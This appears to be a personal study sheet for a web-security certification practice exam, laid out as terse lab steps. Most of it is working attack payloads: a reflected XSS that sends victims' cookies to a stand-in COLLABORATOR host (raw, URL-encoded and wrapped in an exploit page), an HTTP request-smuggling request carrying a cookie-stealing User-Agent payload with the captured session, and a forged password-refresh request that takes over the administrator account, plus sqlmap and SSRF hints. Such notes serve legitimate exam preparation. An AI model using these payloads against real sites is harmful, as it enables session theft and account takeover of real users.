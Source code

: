 # Extra 12  

## 1 - 1  
  
>Identify reflected XSS in search `tracker.gif`   

```
</ScRiPt ><img src=a onerror=document.location="https://COLLABORATOR.com/?biscuit="+document.cookie>
```  

>URL encode all b4 adding as searchterm value

```
%3c%2f%53%63%52%69%50%74%20%3e%3c%69%6d%67%20%73%72%63%3d%61%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%73%3a%2f%2f%78%79%7a%62%72%6a%72%78%31%34%65%31%69%68%64%6e%75%34%6f%68%6f%7a%6f%61%66%31%6c%73%39%69%78%37%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%3f%62%69%73%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3e
```

>exploit body

```
<script>
location = "https://0a93007e04e29b2ac06b2cf100ad00fe.web-security-academy.net/?term=%3c%2f%53%63%52%69%50%74%20%3e%3c%69%6d%67%20%73%72%63%3d%61%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%73%3a%2f%2f%78%79%7a%62%72%6a%72%78%31%34%65%31%69%68%64%6e%75%34%6f%68%6f%7a%6f%61%66%31%6c%73%39%69%78%37%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%3f%62%69%73%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3e"
</script>
```  

## 1 - 2  

>adv search filters - sqlmap  

```
sqlmap -u 

```  
  

>change email + set pass  

```
attacker@exploit-1234.exploit-server.net

```

## 1 - 3  

>admin file image path + size parameters ????

```

```  

## 2 - 1  

>identify `User-Agent` in blog post comment load `/post?postId=10`  

>http smuggle request  

```
POST / HTTP/1.1
Host: TARGET.net
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: Ceop4Tck
Content-Length: 795
Connection: keep-alive

1a
mug9q=x&find=fuzz2&8p7m4=x
0

GET /post?postId=10 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?app='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES

x=1
```  

>send multiple times  

>replace cookie, set email, change password for user

>COLLABORATOR received  

```
GET /?APP=session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--blah%blah%2f%blah%2b%blah%blah%3d%3d HTTP/1.1
Host: COLLABORATOR.oastify.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.64 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

## 2 - 2  

>Identify password change refresh csrf ???  

1. intercept `POST /refreshpassword HTTP/2`  
2. Change `username` to `administrator`  
3. Copy `csrf` from current logged in user profile accounts source code hidden value.  
4. Send pass change request, copy from response the `set-cookie` for administrator.  
5. replace cookie in current session to privesc.  

[csrf privesc](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/csrf-privesc.png)  

```
POST /refreshpassword HTTP/2
Host: TARGET.net
Cookie:session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--BLAHBLAHBLAH%3d;
Content-Length: 60
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Forwarded-Host: exploit-1234.exploit-server.net
X-Host: exploit-1234.exploit-server.net
X-Forwarded-Server: exploit-1234.exploit-server.net
Referer: https://TARGET.net/refreshpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

csrf=CurrentUserCookieValueX&username=administrator
```  

>response 200 ok set-cookie value  

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=%7b%22username%22%3a%22administrator%22%2c%22isloggedin%22%3atrue%7d--BLAHBLAHI%2bq3penAl0%blah%3d%3d; Secure; SameSite=None

X-Frame-Options: SAMEORIGIN
Content-Length: 3441

<!DOCTYPE html>
```  

>copy stolen cookie to session, update email, change password administrator  


## 2 - 3  

>admin function download report pdf `/adminpanel/save-metrics` in POST body JSON field `PageHtml`  

>SSRF vulnerability, you can use it to read the files by accessing an internal-only service running on locahost on port 6566.

